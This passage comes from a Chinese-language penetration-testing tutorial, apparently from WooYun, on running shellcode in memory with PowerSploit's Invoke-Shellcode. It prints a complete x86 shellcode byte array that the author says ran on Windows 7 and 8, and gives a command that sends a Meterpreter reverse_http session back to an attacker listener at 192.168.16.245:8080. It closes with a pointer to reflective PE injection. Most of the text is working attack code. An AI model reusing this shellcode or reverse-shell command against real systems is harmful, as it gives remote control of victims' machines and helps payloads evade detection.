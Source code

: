     
    #!powershell
    Invoke-Shellcode -Shellcode @(0xfc,0xe8,0x89,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,
                                      0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x31,0xc0,
                                      0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf0,0x52,0x57,
                                      0x8b,0x52,0x10,0x8b,0x42,0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4a,0x01,
                                      0xd0,0x50,0x8b,0x48,0x18,0x8b,0x58,0x20,0x01,0xd3,0xe3,0x3c,0x49,0x8b,0x34,0x8b,
                                      0x01,0xd6,0x31,0xff,0x31,0xc0,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,
                                      0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe2,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
                                      0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,
                                      0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xeb,0x86,0x5d,
                                      0x6a,0x01,0x8d,0x85,0xb9,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,0x87,0xff,0xd5,
                                      0xbb,0xe0,0x1d,0x2a,0x0a,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,
                                      0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5,0x63,
                                      0x61,0x6c,0x63,0x00)
    

在win7 x86下

如图

![这里写图片描述](http://static.wooyun.org//drops/20151117/2015111710551568622.net/20151117164458011)

在win 7 x64下，将Shellcode替换为64为Shellcode，执行同样成功，截图略

win8 x86成功，略。  
win8 x64成功，略。

**测试2：**
    
    
    > 利用powershell反弹meterpreter
    

在Invoke--Shellcode.ps1尾部添加如下代码，并保存为CodeExecution-Meterpreter.ps1

    
    
    #!powershell
    Invoke-Shellcode -Payload windows/meterpreter/reverse_http -Lhost 192.168.16.245 -Lport 8080
    

在win7 x86下，

如图

![这里写图片描述](http://static.wooyun.org//drops/20151117/2015111710551613711.net/20151117164514527)

![这里写图片描述](http://static.wooyun.org//drops/20151117/2015111710551614028.net/20151117164520652)

win7 x64成功，略。  
win8 x86成功，略。  
win8 x64成功，略。

## 2、利用powershell加载exe

参考地址：  
<https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1>
